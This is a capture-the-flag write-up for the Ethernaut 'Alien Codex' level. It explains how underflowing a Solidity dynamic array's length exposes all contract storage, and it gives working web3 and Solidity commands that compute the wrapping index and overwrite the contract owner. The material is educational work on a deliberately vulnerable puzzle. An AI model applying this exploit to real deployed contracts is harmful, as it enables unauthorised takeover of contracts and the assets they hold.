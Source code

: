 # [19. Alien Codex](https://ethernaut.openzeppelin.com/level/0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272)

The problem is hinting us to somehow use the `codex` array to change the owner of the contract. The tool in doing so probably has something with the `length` of array. In fact, the `retract` is suspiciously dangerous, and actually might 'underflow' the array length!. The array length is an `uint256`, and once it is underflowed you basically "have" the entire contract storage (all $2^256 - 1$ slots) as a part of your array. Consequently, you can index everything in the memory with that array!

- After `make_contact`, we see that `await web3.eth.getStorageAt(contract.address, 0)` returns `0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272`. Remember that smaller than 32-bytes variables are bundled together if they are conseuctive, so this is actually `owner` and `contact` variable side by side! The `01` at the end of leftmost `0x00..01` stands for the boolean value.
- The next slot, `await web3.eth.getStorageAt(contract.address, 1)` is the length of `codex` array. If you record something you will see that it gets incremented. Well, what if we `retract`? You will be shocked to see that it becomes `0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff`!

So then, how does indexing work and how can we index the `owner` slot now that our array covers the entire storage? We look at the docs of highest version 0.5.0 as that is what the puzzle uses: <https://docs.soliditylang.org/en/v0.5.17/miscellaneous.html#mappings-and-dynamic-arrays>.

> The mapping or the dynamic array itself occupies a slot in storage at some position p according to the above rule (or by recursively applying this rule for mappings of mappings or arrays of arrays). For dynamic arrays, this slot stores the number of elements in the array. Array data is located at keccak256(p).

To see this in action, we can do:

```js
await contract.record('0xffffffffffffffffffffffffffffffff')
await web3.eth.getStorageAt(contract.address , web3.utils.hexToNumberString(web3.utils.soliditySha3(1)))
// 0xffffffffffffffffffffffffffffffff00000000000000000000000000000000
```

Alright, so first we have to `retract` until the array length underflows, and then we just have to offset enough from `keccak256(1)` until we overflow and get back to 0th index, overwriting the `owner`! The array data is located at `uint256(keccak256(1))` and there are `2 ** 256 - 1 - uint256(keccak256(1))` values between that and the end of memory. So, just adding one more to that would mean we go to 0th index. To calculate this index I just wrote a small Solidity code in Remix:

```solidity
function index() public pure returns(uint256) {
  return type(uint256).max - uint256(keccak256(abi.encodePacked(uint256(1)))) + 1; 
}
```

Then I call the `revise` function as follows:

```js
await contract.codex('35707666377435648211887908874984608119992236509074197713628505308453184860938') // if you want to confirm
await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', web3.utils.padLeft(player, 64))
```

Note: You can't set the array length property since version 0.6.0, thankfully! See <https://ethereum.stackexchange.com/a/84130>.
